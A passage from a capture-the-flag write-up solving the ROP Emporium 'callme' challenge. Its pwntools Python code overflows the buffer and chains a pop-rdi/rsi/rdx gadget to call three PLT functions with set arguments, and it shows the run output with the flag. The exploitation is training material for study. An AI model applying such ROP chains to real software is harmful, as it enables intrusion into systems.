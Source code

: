 ```python3
# passing parameters
pass_params =  p64(pop_rdi_rsi_rdx_ret) + p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
```

* Crafting payload

```python3
# crafting payload
payload = cyclic(40, n=8)
# calling callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
payload += pass_params
payload += p64(binary.plt['callme_one'])
# calling callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d) 
payload += pass_params
payload += p64(binary.plt['callme_two'])
# calling callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d) 
payload += pass_params
payload += p64(binary.plt['callme_three'])
```

* Receiving output until it asks for input:

```python3
print(p.recvuntil("> ").decode("latin-1"))
```

* Sending payload

```python3
p.sendline(payload)
```

* Receving output:

```python3
print(p.clean().decode("latin-1"))
```

* Running the script:

```
$ python3 exploit.py 
[+] Starting local process './callme': pid 25240
[*] '/home/kali/CTFs-writeups/ropemporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 17 cached gadgets for './callme'
callme by ROP Emporium
x86_64

Hope you read the instructions...

> 
[*] Process './callme' stopped with exit code 0 (pid 25240)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}

```

And we get the flag!
